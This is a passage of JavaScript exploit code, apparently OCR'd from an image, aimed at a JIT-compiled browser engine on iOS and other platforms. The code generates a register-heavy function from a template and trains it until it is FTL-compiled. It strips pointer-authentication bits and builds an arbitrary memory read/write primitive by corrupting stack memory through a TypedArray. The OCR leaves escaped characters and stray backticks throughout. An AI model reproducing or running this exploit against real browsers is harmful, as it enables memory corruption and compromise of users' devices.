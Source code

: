 ```
// - we have an odd number so the XORing logic for READ works correctly
let nregs = NUM_REGS + 1;

// Build the real function from the template :&gt;
// This simply duplicates every line containing the marker nregs times.
let source = [];
let template = memhax_template.toString();
for (let line of template.split('\n')) `{`
    if (line.includes('$r')) `{`
        for (let reg = 0; reg &lt; nregs; reg++) `{`
            source.push(line.replace(/\$r/g, reg.toString()));
        `}`
    `}` else `{`
        source.push(line);
    `}`
`}`
source = source.join('\n');
let memhax = eval(($`{`source`}`));
//log(memhax);

// On PAC-capable devices, the backing storage pointer will have a PAC in the
// top bits which will be removed by GetIndexedPropertyStorage. As such, we are
// looking for the non-PAC'd address, thus the bitwise AND.
if (IS_IOS) `{`
    buf_addr.assignAnd(buf_addr, new Int64('0x0000007fffffffff'));
`}`
// Also, we don't search for the address itself but instead transform it slightly.
// Otherwise, it could happen that the needle value is spilled onto the stack
// as well, thus causing the function to corrupt the needle value.
let needle = buf_addr.asDouble() * 2;

log(`[*] Constructing arbitrary read/write by abusing TypedArray @ $`{`buf_addr`}``);

// Buffer to hold input/output data for memhax.
let inout = new Int32Array(0x1000);

// This will be the memarr after training.
let dummy_stack = [1.1, buf_addr.asDouble(), 2.2];

let views = new Array(nregs).fill(view);

let lastSp = 0;
let spChanges = 0;
for (let i = 0; i &lt; ITERATIONS; i++) `{`
    let out = memhax(views, READ, 13.37, inout, 4, dummy_stack, needle);
    out = memhax(views, WRITE, 13.37, inout, 4, dummy_stack, needle);
    if (out.sp.asDouble() != lastSp) `{`
        lastSp = out.sp.asDouble();
        spChanges += 1;
        // It seems we'll see 5 different SP values until the function is FTL compiled
        if (spChanges == 5) `{`
            break;
        `}`
    `}`
`}`

// Now use the real memarr to access stack memory.
let stack = memarr;

// An address that's safe to clobber
let scratch_addr = Add(buf_addr, 42*4);

// Value to write
```